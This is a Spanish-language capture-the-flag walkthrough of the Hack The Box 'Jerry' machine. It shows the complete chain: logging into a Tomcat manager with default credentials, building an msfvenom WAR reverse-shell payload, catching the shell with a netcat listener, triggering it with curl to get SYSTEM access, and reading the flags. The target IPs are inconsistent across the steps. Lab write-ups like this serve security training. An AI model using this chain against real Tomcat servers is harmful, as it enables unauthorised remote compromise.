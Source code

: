 ## HTB-Jerry
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.14

## Herramientas a utilizar:

- nmap
- msfvenom
- curl
- nc

```
nmap -sV -sC -Pn -o scan_jerry.txt 10.10.10.96
```

Notaremos que tenemos un tomcat escuchando por el puerto 8080.
```
http://10.10.10.95:8080
```
Y un manejador en:
```
http://10.10.10.95:8080/manager/html
```

Aqui tenemos un panel que nos solicita usuario y passowrd,al intentar y no tener exito notaras que el mensaje de error
nos dice como debe realmente acceder
```
user:tomcat
pass:s3cret
```

Luego de acceder y verificar, veremos que tenemos la faculta de subir archivo en `WAR FILE TO DEPLOY`
Para esto creare un exploit para tener una shell.
```
msfvenom -p windows/shell_reverse_tcp LHOST=(nuestra ip de vpn_htb) LPORT=44444 -f war > rs_r0ok1e.war
```
En una nueva terminal nos ponernos en escucha por el puerto 44444 para la reverse_shell
```
nc -lvpn 44444
```
subimos nuestra shell `rs_r0ok1e.war` a `WAR FILE TO DEPLOY`.
Una ves tengamos el archivo cargado, ejecutamos lo siguiente:
```
jar -tf rs_r0ok1e.war
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
wdwxbdssjlo.jsp
```
De todo esto solo nos interesa el nombre que termine con `.jsp` en mi caso fue **wdwxbdssjlo.jsp**
Luego en ejecutamos:
```
curl http://10.10.10.95:8080/rs_r0ok1e/wdwxbdssjlo.jsp
```
Listo, Ya logramos acceder a jerry.
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
iremos a ahora:
```
cd C\Users\Administrator\Desktop\flags\
```
Aqui encontraremos un archivo llamado `2 for the price of 1.txt` 🤣
Para leer este archivo solo debemo ejecutar
```
type 2*
```
Listo aqui tenemos nuestras dos Flag 😂
